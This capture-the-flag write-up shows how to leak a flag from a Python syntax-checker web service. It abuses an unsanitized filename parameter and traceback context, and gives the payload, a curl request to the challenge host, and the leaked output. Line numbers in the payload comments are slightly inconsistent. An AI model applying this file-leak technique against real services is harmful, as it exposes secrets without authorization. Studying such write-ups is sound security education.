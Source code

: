 **Writeup: CTF Challenge - Online Python Editor**

**Challenge Name:** Online Python Editor  


---

### **Challenge Analysis**
A web application provides a Python syntax checker endpoint (`/check`) that uses `ast.parse()`. The server contains a `secret.py` file with the flag, which we need to extract through error message leakage.

---

### **Key Vulnerabilities**
1. **Filename Parameter Control**  
   The `filename` parameter in the JSON payload isn't sanitized, allowing path specification.
   
2. **Error Message Leakage**  
   Syntax errors return tracebacks showing code context from the specified file.

---

### **Exploit Strategy**
1. **Force Error Context Leakage**  
   Craft a payload that triggers a syntax error at the exact line where `FLAG` is declared in `secret.py`.

2. **Structure Mirroring**  
   Replicate `secret.py`'s code structure up to the flag declaration line to align error positions.

---

### **Step-by-Step Exploit**

#### 1. Analyze `secret.py` Structure
```python
def main():
    print("Here's the flag: ")
    print(FLAG) 
    
FLAG = "TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}"

main()
```

#### 2. Craft Malicious Payload
```python
{
    "source": (
        "def main():\n"
        "    print(\"Here's the flag: \")\n"
        "    print(FLAG)\n\n"
        "FLAG = \"\"\n"  # Valid syntax up to line 4
        "invalid syntax"  # Force error at line 5
    ),
    "filename": "secret.py"
}
```

#### 3. Send Payload to Endpoint
```bash
curl -X POST http://python.ctf.theromanxpl0.it:7001/check \
     -H "Content-Type: application/json" \
     -d '{"source":"def main():\n    print(\"Here\'s the flag: \")\n    print(FLAG)\n\nFLAG = \"\"\ninvalid syntax","filename":"secret.py"}'
```

#### 4. Analyze Error Response
The server returns:
```
  File "secret.py", line 5
    invalid syntax
    ^
SyntaxError: invalid syntax
```

**Surrounding Context:**
```
3│    print(FLAG)
4│    
5│FLAG = "TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}"
```

---

**Flag:** `TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}`
